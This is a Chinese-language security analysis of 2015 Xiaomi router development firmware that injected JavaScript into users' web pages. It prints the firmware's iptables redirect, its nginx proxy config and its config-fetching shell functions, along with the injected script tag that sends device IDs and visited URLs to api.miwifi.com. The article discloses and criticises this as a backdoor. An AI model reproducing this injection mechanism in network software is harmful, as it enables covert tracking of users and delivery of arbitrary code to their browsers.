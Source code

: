 # 小米路由器劫持用户浏览器事件回顾

0x00 概述
=======

* * *

小米路由器开发版固件（并非稳定版固件，不会影响大多数用户，如果你不明白这是什么意思，它不会影响到你）使用黑客技术劫持用户浏览器向用户投送广告，该技术在黑客界广泛用于偷取用户密码甚至可能控制用户电脑和手机，目前小米已经回应该事件，称该事件为“借机炒作恶意煽动”，并解释“所谓的广告”是友好的新功能提示。目前小米官方已经做出相应调整，该功能已经暂时失效。

![ad](http://drops.javaweb.org/uploads/images/1d4483edd5056c8d13c5d07b2ce496a4fdb1c8d2.jpg)

2015年6月初，有用户举报说最新开发版（2.3.31）的小米路由器固件劫持了用户浏览器，在用户完全不知情的情况下向浏览器发送广告代码并执行，本文以官方提供下载的2.3.5版本进行代码分析，论证其功能的技术实现以及可能影响，并对照小米官方微博的声明进行技术核对和解释。

0x01 用户举报
=========

* * *

在V2EX上由用户反映在通过小米路由器浏览网页时，网页被注入了JS代码，而这段代码目前还只是被用来显示广告。[《小米路由器先劫持 http 错误码, 现在又在部分网站添加小尾巴, 什么节奏?》](https://www.v2ex.com/t/199701)这意味着你在完全不知情的前提下，你看到的所有内容其实都受小米路由器的控制，这段代码可以被用来显示广告，也可以偷取你的密码，可以随便修改任何网页的内容来欺骗你，甚至如果你的浏览器有漏洞的话，小米路由器还可能会控制你的电脑或手机。

0x02 原理分析&代码分析
==============

* * *

在代码分析之前概述一下：简单说，他是一个路由器，你通过它来上网，你把数据先交给它，然后它才把数据通过网线送出你家，而小米路由器对你交给它的数据做了手脚，不仅看了，还修改了。 以下代码来自官方网站提供下载的2.3.5版本，使用binwalk解压固件fs，再分析得到的代码

[http://bigota.miwifi.com/xiaoqiang/rom/r1cm/miwifi_r1cm_firmware_7054f_2.3.5.bin](http://bigota.miwifi.com/xiaoqiang/rom/r1cm/miwifi_r1cm_firmware_7054f_2.3.5.bin)

下面为/lib/firewall/rr.loader第20行：

```
iptables -t nat -A "$1" -m set --match-set "rr_tb" dst -p tcp -j REDIRECT --to-ports 8380

```

在转发用户数据包之前把所有rr_tb列表里面目的为80端口的tcp数据包重定向至8380端口，这个是dnsmasq+ipset从小米服务器上获取的域名ip

下面为/etc/sysapihttpd/sysapihttpd.conf第384行：

```
miwifi_toolbar_config miwifi_toolbar_zone 500K "RR_PATH_STUB";
server {
    listen 8380;
    resolver localhost;
    location / {
        set $device_id "DEV_ID_STUB";
        set $rom_version "ROM_VERSION_STUB";
        set $hardware "DEV_MODEL_STUB";
        set $channel "CHANNEL_STUB";
        include "/tmp/rr/footer";
        miwifi_toolbar miwifi_toolbar_zone;
        proxy_pass $scheme://$host$request_uri;
        proxy_ignore_client_abort off;
        proxy_connect_timeout 30s;
        proxy_read_timeout 30s;
        proxy_send_timeout 30s;
        proxy_buffering off;
        proxy_set_header Accept-Encoding '';
        proxy_max_temp_file_size 0;
        proxy_set_header Host $http_host;
    }
}

```

其实sysapihttpd就是nginx，监听8380端口，做了一个反向代理（用在本地相当于透明代理），插入了/tmp/rr/footer代码（RR_PATH_STUB），至于什么是反向代理，请参考乌云知识库之前的文章[《钓鱼？这是反代理！》](http://drops.wooyun.org/tips/6570)，那么，这个/tmp/rr/footer是哪里来的呢？

下面为/usr/bin/pull-req-rule第22行：

```
create_url() {
    local ts=${1:-0}
    local device_id=$(matool --method deviceID)
    local rom=$(uci -q -c /usr/share/xiaoqiang get xiaoqiang_version.version.ROM)
    local hardware=$(uci -q -c /usr/share/xiaoqiang get xiaoqiang_version.version.HARDWARE)
    local channel=$(uci -q -c /usr/share/xiaoqiang get xiaoqiang_version.version.CHANNEL)
    local url="http://api.miwifi.com/rr/config"
    echo $url'?'ts=$ts'&'device_id=$device_id'&'rom=$rom'&'hardware=$hardware'&'channel=$channel
}

extract_footer() {
    local footer_file="$rr_prefix/footer"
    local footer=$(cat $content_file | grep '^footer' | cut -d$'\t' -f 2)
    echo "miwifi_toolbar_template \"$footer\";" > $footer_file
}

```

第一个函数是配置文件的地址，第二个函数是将配置文件中的广告代码放进上文所说的文件中 之后我们根据url的生成规则去看一眼这个config文件：

http://api.miwifi.com/rr/config?ts=1&device_id=0&rom=2.3.31&hardware=miwifi&channel=0

```
ts  1
footer  <script src=\"http://api.miwifi.com/toolbar?device_id=${device_id}&host=${host}&uri=${uri}&rom=${rom_version}&hardware=${hardware}&channel=${channel}\"></script></body></html>
exclude_suffix  .css|.js|.jpeg|.png|.gif|.ico
rule_count  0   0

```

我们可以清晰的看到，这段代码是加载了一个来自api.miwifi.com的js代码文件，换句话说，这个文件里的代码你会无条件的直接执行，无论它是偷密码的，还是发广告的。 而规则已经被小米官方清空，这也意味着不再向任何域名投放广告，但是这仅仅意味着小米服务器指示你的路由器不再JS注入，但小米可以任意时间通过修改这个api.miwifi.com上的控制文件来重新指示你的路由器做JS注入，而你到时候完全不会知道发生了什么

而在小米作出相应调整之前，有网友记录的config文件内容为（原地址[http://pastebin.com/4t7eKNsA](http://pastebin.com/4t7eKNsA)）：

```
ts      1434688147041
footer  <script src=\"http://api.miwifi.com/toolbar?device_id=${device_id}&host=${host}&uri=${uri}&rom=${rom_version}&hardware=${hardware}&c
hannel=${channel}\"></script></body></html>
exclude_suffix  .css|.js|.jpeg|.png|.gif|.ico
rule_count      845     845
rule    67a.cn  1       0
w_rule  /       *       l       t
rule    lizhidy.com     1       0
w_rule  /       *       l       t
rule    hacg.be 1       0
w_rule  /       *       l       t
…………………省略……………………

```

这里的rule是指投放JS代码的域名列表，只要在这个列表里，访问时就会注入JS，形象的比喻：小米具有定向打击的能力，它能在任意时间，任意域名下给你投放任意代码，小米官方称这只是友好的新功能提示，网上炒作都是恶意抹黑，然而现在显而易见的是【小米对这段代码有绝对的控制权，友好不友好都是受小米控制的，代码内容是广告还是木马到头来完全听从小米的，而你上网时必须听从这段代码指挥】![jsinj](http://drops.javaweb.org/uploads/images/8393124143abe46936a3b9843159135947fb66f8.jpg)该代码是一个动态代码，实时从小米官方服务器上获取指令执行，用户无法干预该指令的执行，并且无法得知该指令的存在![00004](http://drops.javaweb.org/uploads/images/d02a9b8b420f2197b590640e4ee537861f744bed.jpg)这就是所谓的广告代码，小米对该代码有绝对控制权，可以在任意时间投放任意代码给用户执行

0x03 到底广告友好不友好
==============

* * *

再看看上文小米路由器插入的广告代码，不看不要紧，一看吓一跳：

```
<script src=\"http://api.miwifi.com/toolbar?device_id=${device_id}&host=${host}&uri=${uri}&rom=${rom_version}&hardware=${hardware}&channel=${channel}\"></script>

```

host是你访问的网站，uri是你访问网站时浏览的页面【以及你提交的GET查询数据】，该数据可能包含你的账号名称、身份标识，换句话说就是你在网页里输入的东西都有可能被发往小米官方服务器，你看到什么，小米官方就能看到什么。技术上讲，你在访问网页时被跟踪了，这段代码执行时不仅仅是显示广告，而且通俗的讲就是把你浏览器地址栏里面的内容全都发送到了小米服务器上。

![0003](http://drops.javaweb.org/uploads/images/b9cc767b19407a8593c4e789ee0eee5e7f14da99.jpg)

从网友提供的图片可以看到，网友正在浏览的网页地址http://movie.douban.com/subject/25718082被小米路由器主动上交给了小米官方服务器（因为该网页并不包含特别机密信息，且网友已经公开本图片，请允许我在此公开该网页地址，请该网友见谅，话说你咋喜欢看这种电影呢，嘻嘻嘻~）

0x04 总结
=======

* * *

![005](http://drops.javaweb.org/uploads/images/97ac4d3b353e3495f650bdb8f9728ee272244002.jpg)

1.  小米官方称“开发版试水”情况属实，并不会影响到正常使用稳定版的用户
2.  小米官方称“已经作出相应调整”情况属实，临时取消JS注入域名清单（取消注入）
3.  网友所说的JS注入情况属实，并且并非静态JS，而是小米服务器上的动态JS
4.  网友所说的浏览器劫持情况属实，官方所说手机APP能够关闭404页面情况属实，但是这个功能默认是开着的，需要手动关闭
5.  小米官方称“炒作”情况属实，首先用户在反馈时忘记注明是开发版固件，因此使用的并不是普通用户的稳定版功能，而媒体并没有解释“开发版”的含义，盲目大力渲染“劫持、注入”的危害，给用户造成了片面印象，【小米对手动安装了开发版固件的无辜用户做了劫持和JS注入，但还没有在全国强推该计划】
6.  小米官方称“友好的新功能提示”不实，该代码将用户的浏览信息上传至小米服务器（具体来说，你看的每一个网页地址，某些情况下可能包含用户名、密码）
7.  404页面劫持会泄露用户浏览的网页地址情况属实，但是一般来说这不会泄露个人隐私，另外404也有开关了，因此不再讨论

个人观点：小米路由器开发版设计的浏览器劫持、JS代码注入功能性质恶劣，严重侵犯了用户的隐私权，甚至将来有可能借此入侵用户的计算机与手机，并且所插入的JS代码确实将用户的隐私信息（浏览器访问网站的地址及部分用户输入的内容）窃取至小米服务器，已经可以定性为后门程序。然而开发版意味着该功能只是技术尝试，并未给普通用户造成实际影响，因此虽然性质恶劣但是目前影响并不大。我认为小米有意将木马程序推送给全国用户，暂时先在开发版里试一下水，如果不被发现就继续这么干下去了，现在被发现之后轻描淡写称开发版是逗你们玩儿的。想起之前大量discuz论坛被黑的事件，域名被劫持加上恶意代码，导致使用discuz论坛的站长在登录后台之后执行了恶意代码自己论坛被黑：http://tech.163.com/09/0108/15/4V55DUGA000915BF.html